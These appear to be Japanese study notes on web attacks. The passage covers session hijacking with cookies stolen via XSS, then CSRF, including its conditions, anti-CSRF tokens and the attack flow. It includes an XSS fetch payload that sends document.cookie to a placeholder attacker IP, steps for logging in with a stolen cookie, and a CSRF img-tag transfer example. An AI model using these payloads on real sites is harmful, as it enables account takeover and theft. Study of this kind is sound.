 盗んだCookieでログインする手順（Firefoxの場合）
- 開発者ツール → Storage → Cookies → + で追加
    - Name：cookie
    - Value：f904f93c949d19d870911bf8b05fe7b2
    - ドメインやパスは自動でOK


このペイロードだけでもクッキーを窃取できる
```sh
<script>fetch(`http://<AttackerIP>:9999?cookie=${btoa(document.cookie)}`)</script>
```


まとめ
- XSS + Cookie送信でSession Hijackingが可能
- ブラインドXSSで発動したXSSも使える
- HttpOnly属性付きのCookieならJSからは盗めない（防御策）
- Cookie管理はセキュリティの要、XSSとの合わせ技が危険！


# CSRF
クロスサイト・リクエスト・フォージェリ
- 認証・ログイン済みのユーザーを騙して、意図しないリクエストを送らせる攻撃
	- CSRF攻撃は 「ブラウザがクッキーを自動送信する」性質を悪用して発生する。
- 攻撃者は 被害者のブラウザを利用して、別のサイトに不正なリクエストを送信し、被害者のアカウントで意図しない操作を実行させる。
	- 被害者がログインしてるからこそできる攻撃

## 攻撃ができる条件
- 標的リクエストに必要なすべてのパラメータを攻撃者が特定または推測できる場合
- アプリケーションのセッション管理が HTTP Cookie のみに基づいており、Cookie がブラウザのリクエストに自動的に含まれる場合
	- anti-csrfトークンが設定されていない
		- サーバー側が、ユーザーの画面から発行した正規のフォーム送信だけを認めるための一時的な秘密文字列
		- 典型的な仕組み
		1. サーバーがフォームを生成するとき、ランダムで推測困難なトークンを埋め込む
		2. そのトークンを**サーバー側セッションにも保存**しておく
		3. ユーザーがフォーム送信した時、リクエストに同じトークンが含まれているか検証
		4. 一致しなければ「このリクエストは正規のフォームから来ていない」として拒否
- Cookie は自動で付くが、リクエストが誰の操作かは分からない」というブラウザの仕様を利用する
## 攻撃に必要なもの
-  被害者を装って有効な（クロスサイト）リクエストを発行する悪意のある Web ページを作成すること
- 悪意のあるクロスサイトリクエストが発行される時点で、被害者がそのアプリケーションにログインしていること

## 攻撃の流れ
1. ユーザーが認証済みの状態（ログイン中）でいる
	- 例えば、銀行やECサイト、SNSにログインしている。
	- **ログインした状態のCoookieを持っている。**
2. 攻撃者がユーザーを騙して悪意のあるページへ誘導
	- メール・SNS・広告などでリンクをクリックさせる
	- 例：「クリックすると無料プレゼント！」のような偽サイト
3. 悪意のあるリクエストが自動的に送信される
	- ユーザーが偽サイトを開いた瞬間に、下のようなコードが実行される
		- `<img src="https://bank.com/transfer?to=attacker&amount=1000" />`
	- ユーザーのブラウザが 自動的に銀行のサーバーにリクエストを送信
	- **ログインした状態のクッキーが自動で送信されるため、サーバーは正規のユーザーのリクエストと誤認して、このリクエストが通ってしまう**
4. 攻撃者の意図したアクションが実行される
	- 例：勝手に攻撃者の口座に送金される、アカウントのメールアドレスが変更されるなど
